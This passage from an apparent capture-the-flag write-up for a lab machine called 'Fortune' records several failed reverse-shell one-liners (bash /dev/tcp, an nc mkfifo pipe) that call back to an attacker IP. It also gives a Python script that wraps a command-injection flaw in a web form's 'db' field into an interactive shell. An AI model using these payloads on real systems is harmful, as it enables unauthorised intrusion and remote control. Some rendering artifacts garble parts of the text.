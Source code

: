     </pre><p>
    <p>Try <a href='/'>again</a>!</p>
    </body>
    <.md>



### Reverse Shell - Fail

I tried a bunch of things to get a reverse shell, but none worked:

  ----------------------------------------------------------------------------------------------------------------------------------------
  Command                                                                             Result
  ----------------------------------------------------------------------------------- ----------------------------------------------------
  `bash -i >& /dev/tcp/10.10.14.10/443 0>&1`                                          Nothing

  `bash -c 'bash -i >& /dev/tcp/10.10.14.10/443 0>&1'`                                `bash: connect: No route to host`\
                                                                                      `bash: /dev/tcp/10.10.14.10/443: No route to host`

  [python rev                                                                         Nothing
  shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)       

  `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/sh -i 2>&1\|nc 10.10.14.10 443 >/tmp/f`   Nothing, but `/tmp/f` now exists
  ----------------------------------------------------------------------------------------------------------------------------------------

I then tried just to `nc` back to myself, and still no connect. It seems
like something if blocking outbound connections.

### Shell

Given that it seemed like I would be enumerating with just this command
injection, I wrote a quick shell program to take commands and run them.
It isn't stateful, but allows for up arrow access to previous commands
and made enumerating easier:



    #!/usr/bin/python3

    import requests
    from bs4 import BeautifulSoup
    from cmd import Cmd


    class Terminal(Cmd):
        prompt = "fortune> "

        def default(self, args):
            resp = requests.post('http://10.10.10.127/select', data={"db": f"s;{args} 2>&1"}, proxies={"http": "http://127.0.0.1:8080"})
            soup = BeautifulSoup(resp.text, .md.parser')
            print(soup.find("pre").text.strip())

    term = Terminal()
    term.cmdloop()
